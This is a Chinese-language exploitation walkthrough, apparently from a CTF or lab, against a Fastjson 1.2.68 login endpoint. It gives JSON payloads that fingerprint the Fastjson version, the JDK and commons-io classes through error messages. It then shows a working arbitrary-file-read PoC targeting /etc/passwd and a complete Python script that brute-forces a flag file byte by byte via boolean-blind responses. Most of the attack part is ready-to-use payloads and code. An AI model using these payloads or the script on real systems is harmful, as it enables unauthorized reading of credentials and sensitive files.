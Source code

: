 这里判断方式与之前方式一致，就不写了。
探测fastjson精确版本：
```json
{
  "@type": "java.lang.AutoCloseable"
```
通过报错，发现版本为1.2.68，在这个大版本下极大的限制 了jndi的利用，因此比较常见的利用方式为文件读写。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693214944518-597de48b-c916-422d-a386-5e4e04dcca7d.png#averageHue=%23fdfdfd&clientId=u2b2ca306-6134-4&from=paste&height=142&id=uc7c3ffaf&originHeight=178&originWidth=1254&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26918&status=done&style=none&taskId=ue16f780d-d980-4e60-b79c-c59beb2ddd1&title=&width=1003.2)
环境依赖探测：
利用charactor类型转换报错，当存在指定的类时会报转换错误，不存在则无显示
先探测是否为JDK11
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693215147683-7e0f9aa8-6c2b-49d3-9bf9-22f1e1cedbde.png#averageHue=%23fcfcfc&clientId=u2b2ca306-6134-4&from=paste&height=156&id=u57f2da7b&originHeight=195&originWidth=1110&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31800&status=done&style=none&taskId=u497bd5af-4261-4c1b-bf3e-943a2a24953&title=&width=888)
很明显不是，那么探测是否存在依赖：commons-io
```json
{
  "x": {
    "@type": "java.lang.Character"{
  "@type": "java.lang.Class",
  "val": "org.apache.commons.io.Charsets"
}}
```
出现cast转换错误，存在commonss-io，但还无法分辨版本
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693216179131-35484970-7471-48ff-bfc3-a6615d55b080.png#averageHue=%23fefefe&clientId=u2b2ca306-6134-4&from=paste&height=159&id=ub59e0d30&originHeight=199&originWidth=1231&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=30846&status=done&style=none&taskId=u29d267f4-1578-4e44-9bf4-bbb72662139&title=&width=984.8)
```json
{
  "x": {
    "@type": "java.lang.Character"{
  "@type": "java.lang.Class",
  "val": "org.apache.commons.io.file.Counters"
}}
```
`org.apache.commons.io.file.Counters`是在commons-io2.7~2.8引入，无关键报错回显，说明不是2.7~2.8版本
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693216246064-60587330-c7c5-4e9e-9605-6e3f62fe9769.png#averageHue=%23fefefe&clientId=u2b2ca306-6134-4&from=paste&height=155&id=uaec34b6e&originHeight=194&originWidth=1056&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27933&status=done&style=none&taskId=uf9943d1d-dd79-4087-9f2b-c073c23ad0d&title=&width=844.8)
本身在commons-io2.0~2.8下是存在任意文件写入的，但是可能因为系统的原因复现并没有成功(可本地能够成功。。。),所以把思路转变为任意文件读取。
Poc:
```json
{
  "abc": {
    "@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///etc/passwd"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },
    "boms": [
      {
        "charsetName": "UTF-8",
        "bytes": [
          114,111,111,116
        ]
      }
    ]
  },
  "address": {
    "@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.CharSequenceReader",
    "charSequence": {
      "@type": "java.lang.String"{"$ref":"$.abc.BOM[0]"},
    "start": 0,
    "end": 0
  }
}
}
```
先测试读/etc/passwd，看看是否成功，因为/etc/passwd文件开头一定为root，对应ascii码的话就是：`114,111,111,116`,这种报错就是成功的，代表字节没问题。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693217559283-cb73454c-d2c3-499c-8f0f-22c1fba72be0.png#averageHue=%23fdfdfd&clientId=u2b2ca306-6134-4&from=paste&height=230&id=u080e1a47&originHeight=288&originWidth=1211&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=42687&status=done&style=none&taskId=ue3f1a346-d525-48df-9a56-ce94249107b&title=&width=968.8)
这种说明不对，字节错误
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693217664073-aba513aa-eca8-436c-852b-c4e06d8282ac.png#averageHue=%23fefefe&clientId=uf2a3ebb0-ea3b-4&from=paste&height=246&id=u77f81ea0&originHeight=307&originWidth=1074&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41229&status=done&style=none&taskId=ud65cf226-a196-46dd-896d-7719c4eb213&title=&width=859.2)
因此就导致了bool盲注产生。那么后面就是写脚本读取敏感文件，爆破字节即可。
比如这里读目标flag文件
exp.py: [exp.py](https://www.yuque.com/attachments/yuque/0/2023/py/26045928/1696407182990-4248cf78-7da3-4c33-8817-1e0dd933cb09.py?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2023%2Fpy%2F26045928%2F1696407182990-4248cf78-7da3-4c33-8817-1e0dd933cb09.py%22%2C%22name%22%3A%22exp.py%22%2C%22size%22%3A2035%2C%22ext%22%3A%22py%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u0fe64061-a0fb-4ea3-825d-29caaba9cc6%22%2C%22taskType%22%3A%22transfer%22%2C%22type%22%3A%22text%2Fx-python%22%2C%22mode%22%3A%22title%22%2C%22id%22%3A%22u76742bb2%22%2C%22card%22%3A%22file%22%7D)
```python
import requests
import json

url = "http://10.30.0.84/login"

asciis = [10,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122,123,124,125,126]
file_byte = []
data1 = """
{
    "abc": {
				"@type": "java.lang.AutoCloseable",
        "@type": "org.apache.commons.io.input.BOMInputStream",
        "delegate": {
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
                "@type": "jdk.nashorn.api.scripting.URLReader",
                "url": "file:///flag"
            },
            "charsetName": "UTF-8",
            "bufferSize": 1024
        },
        "boms": [
            {
                "charsetName": "UTF-8",
                "bytes": [
"""  

data2 = """
                ]
            }
        ]
    },
    "address": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.apache.commons.io.input.CharSequenceReader",
        "charSequence": {
            "@type": "java.lang.String"{"$ref":"$.abc.BOM[0]"},
            "start": 0,
            "end": 0
        }
    }
}
"""
proxies = {
    'http': '127.0.0.1:8080',
}

header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0",
    "Content-Type": "application/json; charset=utf-8"
}


for i in range(1,30):  # 需要读取多长自己定义，但一次性不要太长，建议分多次读取
    for i in asciis:
        file_byte.append(str(i))
        req = requests.post(url=url,data=data1+','.join(file_byte)+data2,headers=header)
        text = req.text
        if "charSequence" not in text:
            file_byte.pop()         

print(','.join(file_byte))   
file_str = ""
for i in file_byte:
    file_str += chr(int(i))
print(file_str)
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693217926650-e7de1ddf-e5db-49ed-a785-2ba790e4a3fd.png#averageHue=%231e1c1b&clientId=uf2a3ebb0-ea3b-4&from=paste&height=72&id=u629cd55d&originHeight=90&originWidth=923&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=9891&status=done&style=none&taskId=u05ae156b-43cb-4994-92bc-9c6d4a1a912&title=&width=738.4)

